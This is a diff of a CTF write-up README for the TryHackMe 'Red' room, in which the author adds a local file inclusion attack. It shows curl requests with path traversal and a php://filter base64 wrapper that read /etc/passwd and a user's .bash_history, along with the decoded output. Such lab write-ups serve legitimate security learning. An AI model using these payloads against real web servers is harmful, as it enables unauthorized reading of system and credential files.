

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/red/readme.md, 2 parts joined by grey strips. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/tryhackme/red/readme.md
+++ b/tryhackme/red/readme.md
@@ -63,10 +63,10 @@ ________________________________________________
 :: Progress: [4613/4613] :: Job [1/1] :: 560 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
 ```
 
-This doesn't look like a lot of information and although we found /assets/ it didn't lead to anything of interest, so let's just take a look.
+This doesn't look like a lot of information and although we found /assets/ it doesn't lead to anything of interest, so I just take a look at the website.
 
 Curl on Website:
-```
+```sh
 curl -vvv $IP
 *   Trying $IP:80...
 * Connected to $IP ($IP) port 80 (#0)
@@ -108,4 +108,64 @@ curl -vvv http://$IP/index.php?page=../../../etc/passwd
 * Connection #0 to host $IP left intact
 ```
 
-Seems like this didn't work and after trying other variations it seems that nothing is working. The second thing I want to try is using filters because maybe this is blocking a valid output.
+Seems like this didn't work and after trying other variations it seems that nothing is working. <br/>
+The second thing I want to try is using filters because maybe this is blocking a valid output.
+
+```sh
+curl http://$IP/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d
+
+root:x:0:0:root:/root:/bin/bash
+daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
+bin:x:2:2:bin:/bin:/usr/sbin/nologin
+sys:x:3:3:sys:/dev:/usr/sbin/nologin
+sync:x:4:65534:sync:/bin:/bin/sync
+games:x:5:60:games:/usr/games:/usr/sbin/nologin
+man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
+lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
+mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
+news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
+uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
+proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
+www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
+backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
+list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
+irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
+gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
+nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
+systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
+systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
+systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
+messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
+syslog:x:104:110::/home/syslog:/usr/sbin/nologin
+_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
+tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
+uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
+tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
+landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
+pollinate:x:110:1::/var/cache/pollinate:/bin/false
+usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
+sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
+systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
+blue:x:1000:1000:blue:/home/blue:/bin/bash
+lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
+red:x:1001:1001::/home/red:/bin/bash
+```
+
+Interesting, we found 2 Users:
+- `blue`
+- `red`
+
+Seems like this worked, but reading `/etc/shadow` doesn't seem to be possible. <br/>
+After trying out popular files I was able to identify an interesting file.
+```sh
+curl http://$IP/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history | base64 -d
+
+echo "Red rules"
+cd
+hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
+cat passlist.txt
+rm passlist.txt
+sudo apt-get remove hashcat -y
+ls
+```
+
````
Also changed, not shown: other parts of tryhackme/red/readme.md (+88 -5 lines).
